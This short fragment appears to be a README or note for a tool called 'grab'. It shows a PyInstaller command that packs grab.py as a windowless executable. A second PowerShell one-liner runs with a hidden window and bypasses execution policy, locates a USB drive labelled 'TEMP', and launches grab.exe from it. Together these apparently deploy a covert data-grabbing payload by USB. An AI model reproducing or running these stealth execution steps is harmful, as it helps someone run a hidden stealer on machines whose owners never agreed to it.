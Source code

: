**TEST**

pyinstaller -F --noconsole -i NONE grab.py

powershell -WindowStyle Hidden -ExecutionPolicy Bypass -NoProfile -Command "$usbDrive = (Get-WmiObject -Query 'SELECT * FROM Win32_Volume WHERE Label = ''TEMP''').DriveLetter + '\'; Set-Location -Path \"$usbDrive\dist\"; .\\grab.exe"

